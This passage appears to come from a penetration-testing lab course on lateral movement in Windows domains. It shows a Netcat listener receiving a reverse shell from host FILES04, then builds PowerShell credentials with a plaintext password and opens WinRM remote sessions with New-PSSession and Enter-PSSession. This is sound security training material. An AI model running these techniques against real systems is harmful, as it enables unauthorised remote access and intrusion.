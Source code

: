 > Listing 11 - Running the reverse-shell payload through WinRS

Once we run the above command after having set up a Netcat listener, we are welcomed with a reverse-shell from FILE04.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```

> Listing 12 - Veriyfing the origin of the WinRS reverse-shell

PowerShell also has WinRM built-in capabilities called [_PowerShell remoting_](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2), which can be invoked via the _New-PSSession_ cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

> Listing 13 - Establishing a PowerShell Remote Session via WinRM

To interact with the session ID 1 we created, we can issue the **Enter-PSSession** cmdlet followed by the session ID.

```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

> Listing 14 - Inspecting the PowerShell Remoting session

Once more, we've proven that the session is originating from the target host through yet another lateral movement technique.
